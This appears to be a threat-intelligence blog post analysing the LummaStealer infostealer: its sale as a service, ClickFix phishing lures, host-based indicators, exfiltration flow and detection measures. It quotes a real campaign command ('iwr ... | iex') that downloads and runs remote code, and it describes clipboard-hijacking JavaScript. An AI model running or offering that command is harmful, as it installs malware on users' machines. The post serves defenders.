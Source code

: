 ```yaml
---
layout: post
title:  "LummaStealer - Russian MaaS InfoStealer"
date:   2025-08-10 21:00:00 +1000
categories: threat intel
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

### Overview

LummaStealer is a C prominent in-memory infostealer. Malware-as-a-service operation developed by "Shamel".

Lumma has been prominent since 2022 when it first appeared for sale. Up until May 2025 it has been smooth sailing. In May Microsoft blocked 2,300 domains related to Lumma's infra. Furthermore the DOJ seized Lumma's control panel. Microsoft identified that over 390,000 Windows host we're compromised at the time of the blocking. 

Perhaps Lumma's best feature. Is the ability for anyone and everyone to purchase logs that are stolen. So you buy Lumma and you have a direct place to steal the stolen logs. All you have to do is get it on a host in the first place.

![Lumma log sale](/images/log_sale.PNG)

### LummaStealer Recent Campaigns
Clickfix is the new phishing. Recent Lumma campaigns have compromised websites and injected malicious code that instructs users to run commands on there host.

An example of a clickfix command used in an actual Lumma campaign is the following
```iwr ct-humancheck[.]info|iex```

Breakdown of flags
- iwr (Invoke Web Request)
- iex (Invoke Expression). Means run code from the prior argument (domain)

Now this paired with a clickfix lure like this

![Copy Clipboard](/images/lumma_clickfix.PNG)

Would be pretty darn tempting. Especially if you we're perhaps paying for something/booking a table/accessing a website. You are just verifying you're human. Right?

The cool part about most clickfix attacks is that malicious .js embedded in the website can silently copy commands to your hosts clipboard.

- Function copyToClipboard copies specified command to hosts clipboard
- EventListener triggers copyToClipboard function when user clicks on the page

![Copy Clipboard](/images/clickfix_example.PNG)

### LummaStealer IOCs (22nd July 2025)
As LummaStealer is malware-as-a-service each group/individual that purchases Lumma will have there own ways for distributing the software. However, despite this there are some clear initial access TTPs that are consistent with Lumma. Furthermore, Lumma's behaviour when executed is also quite consistent. Although files created may be randomly generated with different hashes and IOCs are unscanned. The processes it chooses to inject in, APIs it calls and the directories that it creates files are the same.

Additionally. What makes Lumma and other MaaS operations so expensive is that they guarantee that hash is unrecognisable. Therefore, IOCs are unique to the campaign and quite often the machine. Infrastructure is also provided by Lumma. There are dedicated Lumma C2 servers that people who purchase the malware use as a control panel for infected hosts. These are regularly changing and are managed by Lumma. Because of this, maintaining an updated list of Lumma C2 IOCs is vitally important. Furthermore, creating YARA rules that detect Lumma behaviour is even better!

Lastly I'll add that going back and tracking old malware analysis samples and reports for Lumma I observed that the behaviour of the malware changes a lot. Calls different dlls, Windows APIs and uses different compilers. So whilst this might be relevant now, in a day or two it may not be.

Off track but a person at Mandiant told me they have observed APTs regularly querying VirusTotal to check whether a hash been scanned. As it's often the first step to an investigation, it's a great way to determine whether you've been detected in an environment.

Although Network IOCs are unique to each campaign, I'll still add them in. I'm not certain, but I'm highly confident Lumma would shuffle these regularly.

Here's a list of Lumma Network IOCs from May 2025 provided by Bitsight.
(Bitsight Lumma Stealer Network IOCs)[https://raw.githubusercontent.com/bitsight-research/threat_research/refs/heads/main/lumma/lumma_iocs.csv]

Host-based IOCs
- Tasklist
- Findstr
- Process injection (Particularly svchost.exe and explorer.exe)
- Masquerading as PowerShell
- Cvtres.exe creating malicious .tmps from the Temp directory in binary code (AppData\Local\Temp)
- Csc.exe creating malicious .dlls from the Temp directory in binary code (AppData\Local\Temp)
- Csc.exe executing suspicious .cmdline files from the Temp directory (AppData\Local\Temp)
- Startup folder persistence (AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\App.url)

### Data Exfilitration and C2 Channels
Data exfilitration for Lumma remains consistent for many variants. It seems beaconing and C2 persistence isn't the main goal. It is to silently grab and exfil data.
1. Malware detonates
2. Search here there and everywhere for sensitive information
3. Whack it into a .zip
4. Exfilitrate info
5. Attempt C2 persistence.

Lumma often hosts its domains behind CDN providers such as Bunny.net and DigitalOcean. This is beneficial as it masquerades as legitimate activity. A analyst eyeballing an alert might attribute it to CDN traffic and not bother properly triaging the alert. 

Lumma has also been seen whacking its domains behind CloudFlare IPs as discussed above. This again, gives an analyst less of a reason to think it's bad. Well because everyone uses CloudFlare to front their domains.

### How to detect Lumma?
Search for initial access TTPs.
- Clipboard events in EDR logs. Modern EDRs will record these events and often the process that copied to clipboard. 
- Git repos that users have pulled. Process creation events as a result of the command ```git pull``` and ```git clone```. Sort by repo. Biggest to smallest.

But having said all that. Here is some basic techniques to apply to an enterprise network to help detect/prevent Lumma. And all decent malware to be honest.
- SIEM alert for newly registered domains
- SIEM alert for process injection
- SIEM alert for abnormal processes reaching out to external domains
- SIEM alert for abnormal startup processes/reg keys
- Disable powershell for non-administrative users
- Do not whitelist password manager browser extensions
- Disable auto-saving passwords in browser
- Disable downloading exectuables from untrusted websites
- Application whitelisting
- Deploy EDR tools with behavioural analysis capabilities
- Educate users on clickfix attacks and malvertising
- Deploy BDR solution (SquareX)